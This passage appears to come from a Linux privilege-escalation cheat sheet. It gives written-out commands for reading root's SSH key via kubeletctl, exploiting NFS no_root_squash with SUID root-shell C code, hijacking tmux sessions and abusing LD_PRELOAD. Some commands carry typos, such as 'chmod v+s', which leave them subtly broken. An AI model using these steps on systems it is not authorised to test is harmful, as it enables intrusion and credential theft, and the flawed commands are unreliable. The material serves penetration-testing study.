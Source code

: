 ```
10. Extract root user's SSH key: ```kubeletctl --server <IP> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc```

### Logrotate
Logrotate is a tool used to archive or dispose of old logs. Its main configuration file can be found at ```/etc/logrotate.conf```, status file at ```/var/lib/logrotate.status```, and individual configuration files in the ```/etc/logrotate.d``` directory.

To be able to exploit Logrotate with the particular exploit _logrotten_, the user must have write permissions on the log files, Logrotate must run as a privileged user or rooot, and the version must be vulnerable (versions 3.8.6, 3.11.0, 3.15.0, 3.18.0).

### Passive traffic capture
If ```tcpdump``` is installed, unprivileged users may be able to capture network traffic.

### Weak NFS privileges
The Network File System (NFS) allows users to access shared files or directories over the network on Unix systems. Accessible mounts cna be listed with the commmand ```showmount -e <IP>```. If the ```no_root_squash``` option is set (can be checked with the command ```cat /etc/exports```), privilege escalation may be possible through the upload of a malicious scripts to the share with the SUID bit set.

1. Create a simple script ```shell.c```:
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
2. Compile to binary: ```gcc shell.c -o shell```
3. Mount directory locally: ```sudo mount -t nfs <IP>/tmp /mnt```
4. Copy binary to directory: ```cp shell /mnt```
4. Change permissions on the binary: ```chmod v+s /mnt/shell```
5. Execute binary and obtain root shell: ```./shell```

### Hijacking Tmux sessions
A tmux process set up with weak permissions and running as a privileged user can be hijacked to escalate privileges.]

1. Check for any running tmux processses: ```ps aux | grep tmux```
2. Confirm permissions: ```ls -la /shareds```
3. Attach to the tmux session: ```tmux -S /shareds```

## Linux internals-based
### Kernel exploits
Check the kernel and OS version using the command ```uname -a``` or ```cat /etc/lsb-release```, in order to determine if the kernel is vulnerable to any known exploits.

### Shared libraries
The ```LD_PRELOAD``` environmental variable is used to load a library before executing a binary, and may be used to escalate privileges if the user has sudo privileges.

1. Create the following library ```root.c```:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
